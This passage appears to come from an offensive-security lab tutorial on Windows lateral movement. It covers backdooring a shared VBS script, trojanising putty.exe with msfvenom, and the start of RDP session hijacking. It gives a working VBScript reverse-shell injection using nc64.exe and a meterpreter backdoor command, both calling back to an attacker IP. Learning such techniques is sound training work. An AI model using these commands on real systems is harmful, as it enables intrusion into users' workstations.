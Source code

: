 ### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the following code in the shared script:

```
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

This will copy nc64.exe from the share to the user's workstation `%tmp%` directory and send a reverse shell back to the attacker whenever a user opens the shared VBS script.

### Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.

### RDP hijacking

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

![task6-runas](./images/task6-runas.png)

From there, run `PsExec64.exe`(available at `C:\tools\`):
